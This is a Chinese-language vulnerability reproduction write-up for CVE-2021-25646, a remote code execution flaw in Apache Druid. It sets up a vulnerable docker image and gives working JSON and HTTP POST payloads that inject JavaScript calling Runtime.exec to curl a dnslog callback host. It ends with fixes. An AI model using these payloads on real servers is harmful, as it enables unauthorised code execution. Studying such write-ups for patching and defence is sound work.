 

# CVE-2021-25646 - Apache Druid RCE 复现

# [](#apache-druid-rce-%E5%A4%8D%E7%8E%B0)Apache Druid RCE 复现

## [](#1-%E6%BC%8F%E6%B4%9E%E4%BB%8B%E7%BB%8D)1 漏洞介绍

### [](#11-druid)1.1 Druid

Druid 是一个 JDBC 组件，支持所有 JDBC 兼容的数据库，包括 Oracle、MySql、Derby、Postgresql、SQL Server、H2 等。

### [](#12-%E6%BC%8F%E6%B4%9E%E6%8F%8F%E8%BF%B0)1.2 漏洞描述

**编号：CVE-2021-25646**

Apache Druid 包括执行用户提供的 JavaScript 的功能嵌入在各种类型请求中的代码。此功能在用于高信任度环境中，默认已被禁用。但是，在 Druid 0.20.0 及更低版本中，经过身份验证的用户可以构造传入的 json 串来控制一些敏感的参数发送恶意请求，利用 Apache Druid 漏洞可以执行任意代码。

### [](#13-%E5%BD%B1%E5%93%8D%E7%89%88%E6%9C%AC)1.3 影响版本

Apache Druid < 0.20.1

## [](#2-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)2 漏洞复现

### [](#21-%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA)2.1 环境搭建

从 docker 仓库中拉取一个版本为 0.16.0 的镜像：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>docker pull fokkodriesprong/docker-druid<br>docker run --rm -i -p 8888:8888 fokkodriesprong/docker-druid<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202215229.png-water_print](assets/1699411376-784b5fec9c36839f49fe8bbc66292b5e.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202215229.png-water_print")

### [](#22-%E5%A4%8D%E7%8E%B0)2.2 复现

docker 容器启动后，访问 8888 端口：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224141.png-water_print](assets/1699411376-8748f4e80dc2ffffcc0ae10db1e1a7c1.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224141.png-water_print")

点击 `Load data -> Local Disk`：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224155.png-water_print](assets/1699411376-0b0af03c603ffce4725b937fe7e1caed.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224155.png-water_print")

填入

**Base directory:** `quickstart/tutorial/`

**File filter:** `wikiticker-2015-09-12-sampled.json.gz`

一直点击 next 到 filter 项

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224208.png-water_print](assets/1699411376-b955bc5ea3b2a2f520a5c2dffb6c6180.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224208.png-water_print")

抓包修改 filter 为：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```json<br>{<br>    "type":"javascript",<br>    "function":"function(value){return java.lang.Runtime.getRuntime().exec('curl dnslog')}",<br>    "dimension":"added",<br>    "":{<br>    "enabled":"true"<br>    }<br>}<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224306.png-water_print](assets/1699411376-ffd5185208e836a708320683437e1a35.jpg "修改前")

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224325.png-water_print](assets/1699411376-b91bdfc355cf3633ed7628ad20d6cb71.jpg "修改后")

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224502.png-water_print](assets/1699411376-cb72c20855427ba567ca0ce8fe9a4a75.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210202224502.png-water_print")

也可以直接使用 POC：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```http<br>POST /druid/indexer/v1/sampler HTTP/1.1<br>Host: xxx.xxx.xxx.xxx:8888<br>User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0<br>Accept: application/json, text/plain, */*<br>Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2<br>Content-Type: application/json<br>Content-Length: 995<br>Connection: close<br><br><br>{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('curl xxxxx.dnslog.cn')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}<br>``` |

### [](#23-%E4%BF%AE%E5%A4%8D)2.3 修复

升级 Apache Druid 到最新的版本

对 Apache Druid 进行权限控制，只允许受信任的主机访问集群服务器
